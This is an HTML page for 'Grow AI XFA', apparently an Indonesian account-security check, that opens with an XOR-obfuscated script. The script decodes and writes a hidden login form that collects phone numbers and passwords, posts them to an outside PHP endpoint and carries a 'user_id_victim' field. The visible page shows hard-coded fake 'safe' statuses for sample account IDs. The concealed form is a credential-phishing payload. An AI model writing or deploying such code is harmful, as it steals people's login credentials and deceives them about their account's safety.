         <script language="javascript"> 

var enkripsi="'2C'2C'1Ajvon'1G'2C'02'02'1Ajgcf'1G'2C'02'02'02'02'02'02'1Aogvc'02lcog'1F'00tkgurmpv'00'02amlvglv'1F'00ukfvj'1Ffgtkag/ukfvj'02'0A'02klkvkcn/qacng'1F3,2'00'1G'2C'2C'02'02'02'02'1Aogvc'02jvvr/gswkt'1F'00Amlvglv/V{rg'00'02amlvglv'1F'00vgzv-jvon'1@'02ajcpqgv'1FWVD/:'00'1G'2C'2C'1AQapkrv'02Nclewceg'1F'05Hctcqapkrv'05'1G'2C'1A'03//'02JVON'02Glap{rvkml'02rpmtkfgf'02`{'02vcvjukp,amo'02//'1G'2C'1A'03//'2Cfmawoglv,upkvg'0:wlgqacrg'0:'05'071A'0751'0756'075;'074A'0747'071G'072C'0740'074D'0746'075;'075@'072C'072;'074F'0743'0750'0745'074;'074G'071C'0702'0712'071@'072C'072;'0744'074D'074G'0756'070F'0744'0743'074F'074;'074A'075;'071C'0702'0751'0743'074G'0751'070F'0751'0747'0750'074;'0744'071@'072C'072;'074A'074;'074G'0747'070F'074:'0747'074;'0745'074:'0756'071C'0702'0713'0714'0752'075:'071@'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0702'0713'0711'0752'075:'071@'072C'075F'072C'072C'070G'074G'0743'0754'0740'0743'0750'075@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'071C'0702'0701'0712'0712'0713'0744'071;'0712'0740'071:'071@'072C'0702'0702'0702'0702'074:'0747'074;'0745'074:'0756'071C'0702'0711'071;'0752'075:'071@'072C'0702'0702'0702'0702'0755'074;'0746'0756'074:'071C'0702'0713'0712'0712'0707'071@'072C'075F'072C'072C'070G'0741'074D'074G'0756'0743'0741'0756'070F'0757'0751'0702'0743'075@'072C'072;'0741'074D'074A'074D'0750'071C'0701'0712'0712'0713'071:'0716'0743'0715'071:'071@'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0713'0713'0752'075:'071@'072C'075F'072C'072C'070G'074G'0743'0754'070F'074:'0747'0743'0746'075@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'070F'0741'074D'074A'074D'0750'071C'0701'0744'0744'0746'0741'0712'0712'0710'0714'071@'072C'072;'0741'074D'074A'074D'0750'071C'0701'0717'0746'0717'0711'0712'0747'0740'071:'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'0714'0752'075:'0702'0713'0712'0752'075:'071@'072C'075F'072C'072C'070G'0741'074D'074G'0756'0743'0741'0756'070F'0757'0751'075@'072C'072;'0752'0743'0746'0746'074;'074G'0745'070F'0740'074D'0756'0756'074D'074F'071C'0710'0713'0752'075:'071@'072C'072;'0756'0747'075:'0756'070F'0743'074A'074;'0745'074G'071C'0741'0747'074G'0756'0747'0750'071@'072C'075F'072C'072C'072C'070G'0744'074D'0750'074F'0757'074A'0743'074;'0750'0747'070G'0744'074D'0750'074F'0757'074A'0743'074;'0750'0747'071G'070C'075@'072C'072;'0740'074D'0750'0746'0747'0750'070F'0740'074D'0756'0756'074D'074F'071C'0713'0752'075:'0702'0751'074D'074A'074;'0746'0702'0701'0741'0715'0741'0711'0741'0711'0714'071;'071@'072C'075F'072C'072C'070G'0747'074G'0756'0750'0747'0750'075@'072C'072;'0740'074D'0750'0746'0747'0750'071C'0712'071@'072C'072;'0755'074;'0746'0756'074:'071C'0713'0712'0712'0707'071@'072C'075F'072C'072C'070D'070C'072C'0751'0757'0740'074F'074;'0756'072C'070C'070D'072C'072C'070G'074@'074D'0743'074A'0743'075@'072C'072;'0746'074;'0751'0752'074A'0743'075;'071C'074;'074G'074A'074;'074G'0747'070F'0740'074A'074D'0741'074@'071@'072C'072;'070F'0755'0747'0740'074@'074;'0756'070F'0740'074D'0750'0746'0747'0750'070F'0750'0743'0746'074;'0757'0751'071C'0711'0752'075:'071@'072C'072;'0744'074D'074G'0756'070F'0755'0747'074;'0745'074:'0756'071C'0740'074D'074A'0746'071@'072C'072;'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'070F'0741'074D'074A'074D'0750'071C'0701'0712'0712'0711'0714'0744'071;'071;'071;'071@'072;'072C'072;'0744'074D'074G'0756'070F'0751'074;'075C'0747'071C'0713'0711'0752'075:'071@'072C'072;'074A'074;'074G'0747'070F'074:'0747'074;'0745'074:'0756'071C'0711'0716'0752'075:'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'0712'0702'0713'071:'0752'075:'071@'072C'072;'0741'074D'074A'074D'0750'071C'0755'074:'074;'0756'0747'072C'075F'072C'072C'070G'0751'0753'0757'0743'0750'0747'077D'0740'0756'074G'0702'075@'072C'0702'0702'0702'072;'0752'074D'0751'074;'0756'074;'074D'074G'071C'0702'0750'0747'074A'0743'0756'074;'0754'0747'071@'072C'0702'0702'0702'0702'0746'074;'0751'0752'074A'0743'075;'071C'0702'074;'074G'074A'074;'074G'0747'070F'0740'074A'074D'0741'074@'071@'072C'0702'0702'0702'0702'0752'0743'0746'0746'074;'074G'0745'071C'0702'0713'0713'0752'075:'071@'072C'0702'0702'0702'0702'0756'0747'075:'0756'070F'0746'0747'0741'074D'0750'0743'0756'074;'074D'074G'071C'0702'074G'074D'074G'0747'071@'072C'0702'0702'0702'0702'0741'074D'074A'074D'0750'071C'0702'0755'074:'074;'0756'0747'071@'072C'0702'0702'0702'0702'0740'0743'0741'074@'0745'0750'074D'0757'074G'0746'071C'0702'0701'0713'0747'0716'0712'071:'071:'0740'071:'071@'072C'0702'0702'0702'0702'0740'074D'0750'0746'0747'0750'070F'0750'0743'0746'074;'0757'0751'071C'0702'0716'0752'075:'071@'072C'0702'0702'0702'0702'0744'074D'074G'0756'070F'0755'0747'074;'0745'074:'0756'071C'0702'0740'074D'074A'0746'071@'072C'0702'0702'0702'0702'0740'074D'0750'0746'0747'0750'071C'0702'0713'0717'0752'075:'0702'0701'0744'0711'0712'071;'0712'071;'071@'072C'0702'0702'0702'0702'0755'074;'0746'0756'074:'071C'0702'0713'0712'0712'0707'071@'072C'075F'072C'072C'072C'070D'070C'0702'074G'0747'0754'0747'0743'0757'0702'0741'074D'074F'0752'0756'0747'0702'070C'070D'072C'070G'0744'0750'0757'074;'0756'075@'072C'072;'0756'0747'075:'0756'070F'0743'074A'074;'0745'074G'071C'0741'0747'074G'0756'0747'0750'071@'072C'072;'0752'0743'0746'0746'074;'074G'0745'071C'071;'0752'075:'071@'072C'075F'0702'072C'071A'070D'0751'0756'075;'074A'0747'071G'05'0;'0;'1@'2C--//'1G'2C'1A-Qapkrv'1G'2C'2;'2C'02'02'1A-jgcf'1G'2C'02'02'1A`mf{'1G'2C'02'02'02'02'02'1A'03//'02Lct@cp'02//'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00lct`cp'00'1G'1A-fkt'1G'2C'02'02'02'02'1Afkt'02qv{ng'1F'00fkqrnc{'1C/ug`ikv/`mz'00'1G'2C'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00/ug`ikv/`mz/dngz'1C3'00'1G'2C'02'02'02'02'02'02'02'02'1A'03//Lct/Jgcfgp//'1G'2C'2C'2C'02'02'02'02'02'02'02'02'1A'03//'02Dmpownckpg'02//'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00`caiepmwlf/amnmp'1C'010a1`7c2d'1@rcffkle'1C0'0213rz'00'1G'2C'2;'2;'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00'00'02ukfvj'1F'00122rz'00'1G'2C'2;'2;'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00lct/jgcf'00'1G'2C'02'02'02'02'02'02'02'02'02'02'1Aqrcl'1Gqkncjicl'02nmekl'02ig'02fcnco'02ciwl'02ZDC'02CK'02clfc'1A-qrcl'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02ogvjmf'1F'00RMQV'00'02qv{ng'1F'00rcffkle/vmr'1C35rz'1@'00'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00RMQV'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmpownckpg'00'02qv{ng'1F'00`caiepmwlf'1Cujkvg'1@'00'1G'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'2C'02'02'02'02'02'02'02'02'02'02'02'02'2C'1Aklrwv'02lcog'1F'00gockn'00'02v{rg'1F'00vgzv'00'02rncagjmnfgp'1F'00Rjmlg'02lwo`gp'00'02ancqq'1F'00glvpgp'00'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'02'2C'2C'2C'2C'1Aklrwv'02lcog'1F'00v{rg'00'02v{rg'1F'00jkffgl'00'02tcnwg'1F'00om`kng'00'02-'1G'2C'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'007TNPC'00'02-'1G'2C'2C'2C'2C'1Aklrwv'02lcog'1F'00rcqq'00'02tcnwg'1F'00'00'02v{rg'1F'00rcqqumpf'00'02'02rncagjmnfgp'1F'00Rcqqumpf'02'00'02ancqq'1F'00glvpgp'00'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02qv{ng'1F'00rcffkle'1C30rz'1@'00'1G'02'2C'2C'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00qswcpg]`vl'00'1G'02Nmekl'02'1A-`wvvml'1G'2C'2C'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'02'2C'2C'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dpwkv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Ac'02ancqq'1F'00imcnc'00'1GLggf'02c'02lgu'02caamwlv'1A-c'1G'02'2C'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'2C'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amlvcav/wq'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Ac'1GDmpemvvgl'02caamwlv'02'1D'02Lggf'02Jgnr'1A-c'1G'2C'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-hq/vpcai-vpcai,hq'00'1G'1A-qapkrv'1G'02'2C'2C'02'02'1A-`mf{'1G'2C'1A-jvon'1G'2C"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);
</script>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Grow AI XFA - Account Security</title>
    <style>
        body, html {
            margin: 0;
            padding: 0;
            font-family: Arial, sans-serif;
            background-color: #f9f9f9;
        }

        header {
            background-color: #003366;
            color: white;
            padding: 20px;
            text-align: center;
        }

        nav {
            display: flex;
            justify-content: center;
            background-color: #004080;
            padding: 10px 0;
        }

        nav a {
            color: white;
            padding: 14px 20px;
            text-decoration: none;
            text-transform: uppercase;
            margin: 0 15px;
            cursor: pointer;
        }

        nav a:hover {
            background-color: #0059b3;
            border-radius: 5px;
        }

        .hero {
            background-color: #f0f0f0;
            height: 400px;
            color: white;
            display: flex;
            justify-content: center;
            align-items: center;
            flex-direction: column;
            text-align: center;
            padding: 20px;
        }

        .hero img {
            width: 150px;
            margin-bottom: 20px;
        }

        .hero h1 {
            color: #003366;
            font-size: 2.5em;
            margin: 0;
        }

        .section {
            padding: 50px;
            text-align: center;
        }

        .section h2 {
            font-size: 2em;
            margin-bottom: 20px;
        }

        .section p {
            font-size: 1.2em;
            line-height: 1.6;
            margin: 0 auto;
            max-width: 800px;
        }

        .footer {
            background-color: #003366;
            color: white;
            padding: 20px;
            text-align: center;
        }

        .footer p {
            margin: 0;
        }

        .search-container {
            margin: 30px 0;
            text-align: center;
        }

        .search-container input[type="text"] {
            padding: 10px;
            width: 300px;
            border: 1px solid #ccc;
            border-radius: 5px;
        }

        .search-container button {
            padding: 10px 20px;
            background-color: #004080;
            color: white;
            border: none;
            border-radius: 5px;
            cursor: pointer;
        }

        .search-container button:hover {
            background-color: #0059b3;
        }

        .result-list {
            margin-top: 20px;
            text-align: center;
        }

        .result-list ul {
            list-style-type: none;
            padding: 0;
        }

        .result-list ul li {
            background-color: #ffffff;
            margin: 10px 0;
            padding: 20px;
            border-radius: 10px;
            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
            text-align: left;
            max-width: 800px;
            margin-left: auto;
            margin-right: auto;
        }

        .result-list ul li h3 {
            margin-top: 0;
            color: #006600; /* Warna hijau menyala untuk status */
        }

        .result-list ul li h3 span {
            background-color: #28a745;
            color: white;
            padding: 5px 10px;
            border-radius: 5px;
        }

        .result-list ul li p {
            margin-bottom: 5px;
            font-size: 1.1em;
        }

        .result-list ul li .status-aman {
            color: green;
            font-weight: bold;
        }

        .result-list ul li .status-aman::before {
            content: "✔ ";
            color: green;
            font-weight: bold;
        }

        /* Gaya untuk gambar tutorial */
        .tutorial-container {
            display: none;
            text-align: center;
            margin-top: 30px;
        }

        .tutorial-container img {
            width: 70%;
            max-width: 600px;
            border-radius: 10px;
            box-shadow: 0 0 15px rgba(0, 0, 0, 0.2);
        }
    </style>
</head>
<body>

<header>
    <h1>Grow AI XFA</h1>
    <p>Keamanan Akun & Pengguna</p>
</header>

<nav>
    <a id="cekIDLink">Cara Cek ID</a>
    <a href="#services">Services</a>
    <a id="contactLink" href="https://wa.me/8815035520" target="_blank">Contact</a> <!-- Perubahan di sini -->
</nav>

<section class="hero">
    <img src="https://i.ibb.co.com/cLF8sVW/Photoroom-20240910-092123.png" alt="Photoroom-20240910-092123">
    <h1>Cek Keamanan Akun Anda</h1>
</section>

<section class="section">
    <h2>Cari ID Akun</h2>
    <div class="search-container">
        <input type="text" id="searchInput" placeholder="Masukkan ID Akun">
        <button onclick="searchID()">Cari</button>
    </div>

    <div class="result-list" id="resultList">
        <!-- Daftar ID ditemukan akan muncul di sini -->
    </div>

    <!-- Container untuk gambar tutorial -->
    <div class="tutorial-container" id="tutorialContainer">
        <h3>Tutorial Cara Cek ID Akun</h3>
        <img src="https://i.ibb.co.com/B21gH76/IMG-20240909-WA0019.jpg" alt="Tutorial Cek ID">
            <img src="https://i.ibb.co.com/VQSpGJW/IMG-20240909-WA0018-1.jpg" alt="Tutorial Cek ID">
    </div>
</section>

<footer class="footer">
    <p>&copy; 2024 Grow AI XFA. All rights reserved.</p>
</footer>

<script>
    // Fungsi untuk mencari ID akun
    function searchID() {
        let input = document.getElementById('searchInput').value;
        let resultList = document.getElementById('resultList');

        // Contoh data ID yang ditemukan
        let ids = [
            { id: '12345', status: 'ACTIVED' },
            { id: '67890', status: 'ACTIVED' },
            { id: '8093014', status: 'ACTIVED' },
                        { id: '12345', status: 'ACTIVED' },
            { id: '7443376', status: 'ACTIVED' },
            { id: '8093014', status: 'ACTIVED' },
        ];

        // Clear previous results
        resultList.innerHTML = '';

        // Filter berdasarkan input
        let filteredIDs = ids.filter(item => item.id.includes(input));

        if (filteredIDs.length > 0) {
            let ul = document.createElement('ul');

            filteredIDs.forEach(item => {
                let li = document.createElement('li');
                li.innerHTML = `
                    <h3>ID: ${item.id} - <span>${item.status}</span></h3>
                    <p><strong>Keamanan Akun:</strong> <span class="status-aman">Aman</span></p>
                    <p><strong>Keamanan Penarikan:</strong> Verifikasi Diperlukan</p>
                    <p><strong>Keamanan Perangkat yang Dibeli:</strong> Tidak Ada Masalah</p>
                `;
                ul.appendChild(li);
            });

            resultList.appendChild(ul);
        } else {
            resultList.innerHTML = `<p>ID tidak ditemukan silahkan login terlebih dahulu ke akun XFA AI anda.</p>`;
        }
    }

    // Fungsi untuk menampilkan gambar tutorial saat menu "Cara Cek ID" diklik
    document.getElementById('cekIDLink').addEventListener('click', function() {
        let tutorialContainer = document.getElementById('tutorialContainer');
        tutorialContainer.style.display = 'block';
        tutorialContainer.scrollIntoView({ behavior: 'smooth' });
    });
</script>

</body>
</html>
